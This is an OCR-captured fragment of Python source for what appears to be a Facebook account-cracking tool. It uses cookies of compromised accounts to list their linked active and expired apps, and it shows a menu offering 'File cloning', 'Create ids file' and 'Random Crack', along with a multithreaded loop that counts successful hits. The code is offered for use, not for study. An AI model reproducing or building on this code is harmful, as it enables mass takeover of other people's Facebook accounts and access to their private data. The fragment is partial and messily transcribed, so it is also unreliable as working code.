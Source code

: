             else:
                #print(response.text)
                continue
        sys.stdout.write('\r {} [AMAN] [{}|{}] [OK:{}] {}\r'.format(mys, str(loop), str(len(idx)), str(len(oku)) ,mys))
        sys.stdout.flush()
        loop += 1       
    with tpe(max_workers=30) as tp:
        tp.map(rana, idx)
    print("\n-----------------------------------------------")
    print(" [•] If You Enjoy Send Feeback")
    print("-----------------------------------------------  ")
    exit()
def l1():
	print('\033[1;37m----------------------------------------------')
def clear():
	os.system('clear')
	print(logo)
A = '\x1b[1;97m' 
B = '\x1b[1;96m' 
C = '\x1b[1;91m' 
D = '\x1b[1;92m'
M = '\033[1;31m'
H = '\033[1;32m'
N = '\x1b[1;91m'	
E = '\x1b[1;93m' 
F = '\x1b[1;94m'
G = '\x1b[1;95m'
P = '\033[1;91m'
def cek_apk(session,coki):
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
	sop = BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	if len(game)==0:
		print(f'\r%s [%s•%s] %sActive Apks & Web Not Found %s		'%(N,H,N,H,N))
	else:
		print(f'\r{A} [•]%s Active Apks & Web 👇 '%(H))
		for i in range(len(game)):
			print(f"\r%s [%s] %s %s "%(D,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),D))
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
	sop = BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	if len(game)==0:
		print(f'\r%s [%s•%s] %sExpired Apks & Web Not Found %s		'%(N,M,N,M,N))
	else:
		print(f'\r{A} [•]%s Expired Apks & Web 👇 '%(M))
		for i in range(len(game)):
			print(f"\r%s [%s] %s %s "%(C,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),A))
loop=0
oks=[]
cps=[]
pcp=[]
id=[]
twf =[]
tokenku=[]
try:os.mkdir('data')
except:pass
def menu(): 
			os.system('clear');print(logo);print(' [1] File cloning\n [2] Create ids file\n [3] Random Crack\n [5] Facebook id  (follow)\n [0] Exit menu')